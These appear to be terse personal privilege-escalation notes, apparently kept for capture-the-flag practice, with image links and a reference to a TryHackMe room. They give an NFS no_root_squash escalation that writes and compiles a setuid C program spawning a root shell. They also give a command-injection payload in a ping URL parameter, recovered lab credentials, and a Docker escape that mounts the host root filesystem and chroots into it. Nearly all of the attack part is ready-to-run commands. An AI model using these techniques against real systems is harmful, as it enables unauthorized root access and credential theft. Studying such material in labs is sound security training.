




##**NSF_squash::**##

See 

```
victim:
cat /etc/exports :: /tmp * (rw, sync, insecure, no_root_squash,no subtree_check)

Attacker:
showmount -e <victim ip> :: /tmp *
mkdir /tmp/mounted
mount -o rw,vers=2 <victim ip>:/tmp /tmp/mounted
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return -0; }' > /tmp/mounted/x.c
gcc /tmp/mounted/x.c -o /tmp/mounted/x
chmod +s /tmp/mounted/x

Then execuate ./x on victim.
```

Docker exploitation: https://tryhackme.com/room/ultratech1
look at api.js:: http://${APIURL()}/ping?ip=${code_injection}
http:<ip>/ping?ip=`ls` :: ultra.db.sqlite
http:<ip>/ping?ip=`cat ultra.db.sqlite` :: Creds:
see 
see  
:: creds: r00t:n100906 && admin:mrsheafy
    r00t worked::
        /opt/containerd

```
docker ps -a
Take Image name:
docker run -v /:/mnt --rm -it <image name> chroot /mnt sh
```
See 
            